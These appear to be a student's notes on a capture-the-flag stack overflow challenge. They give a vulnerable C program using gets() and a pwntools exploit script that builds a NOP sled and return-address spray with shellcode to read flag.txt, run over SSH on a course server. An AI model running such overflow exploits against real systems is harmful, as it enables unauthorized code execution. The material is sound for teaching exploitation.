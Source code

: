 ### GDB!!
- Permissions Denied Error: (-13) GDB runs as you, with your permissions
	- you do not have permissions to open the file
	- so the shellcode fails
	- WHy?: in GDB, you can arbitarily change memory addresses!
	- You can even use the shell in GDB.
- Addresses may be a little off
	- Bigger NOP sled

### Stack4-32
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv){
	char buffer[64];
	unsigned int ret;

	gets(buffer);

	ret = __builtin_return_address(0);

	if((ret & 0xff000000) != 0xff000000) {
		printf("32-bit matrix calibration failed... (%p)\n", ret);
		_exit(1);
	}
}
```


### exploit.py
```python
_from_ pwn _import_ *
_import_ os

elf = ELF('./stack4')
context.binary=elf
context.log_level = 'debug'
context.arch = 'i386'

debug_mode=False
cat = (_b_'\x90'*_0x_6000)+asm(shellcraft.cat("./flag.txt"))+asm(shellcraft.exit())
os.environ["BIGBOY"] = 'L'*60000
_#return addr local: 0xfffeeb9c_
_#start of buff local: 0xfffeeb4c_
_#ret_addr_1 local: 0xffff4b9c +0x4000_
_#ret_addr_2 local: 0xffffab9c +0x6000_

_#return addr server: 0xfffeeacc_
_#start of buff server: 0xfffeea7c_
_#ret_addr_1 server: 0xffff0acc_
_#ret_addr_2 server: 0xffff2acc_

offset = 80

#in 32 bit, ret pointer points to place where the loaction of the next point of execution is stored, which is why we need two guesses!!

_#sets the esp address to ret to_
ret_addr = _0x_ffff4b9c
guess_slide_1= p32(ret_addr)*_0x_1000

_#sets the addres for eip to jump to_
ret_addr_2 = _0x_ffffab9c
guess_slide_2 = p32(ret_addr_2)*_0x_1000

exploit_str = guess_slide_1 + guess_slide_2 + cat
dbg = cyclic(300)

if debug_mode == True:
    p = gdb.debug('./stack4', _gdbscript_ = '''
                    b *main
                    b *main+41
                    shell tmux select-layout main-vertical
                    shell tmux swap-pane -U
                    ''')

else:
    s = ssh('kcjesse', 'cs4401shell.walls.ninja', _keyfile_='./keys/kcjesse_ssh_key')
    s.set_working_directory('/problems/stack4r-32_3_2c7e74d57fc9c662ccad31d5572e0cf4/')
    p = s.process("./stack4", _env_={"BIGBOY":('L'*60000)})

p.sendline(exploit_str)

p.wait()
p.recvall()

```

### What does the `ret` instruction do?
- jumps back to the location where the next instruction is once the function is finished (the caller's next instruction)
- that address should be at the top of the stack or in `$ebp`
- so, move `$ebp` into `$eip`

### What is causing the corruption?
- `lea esp, [ecx-0x4]`
- record the offset of the `ret` and of `ecx`
- 
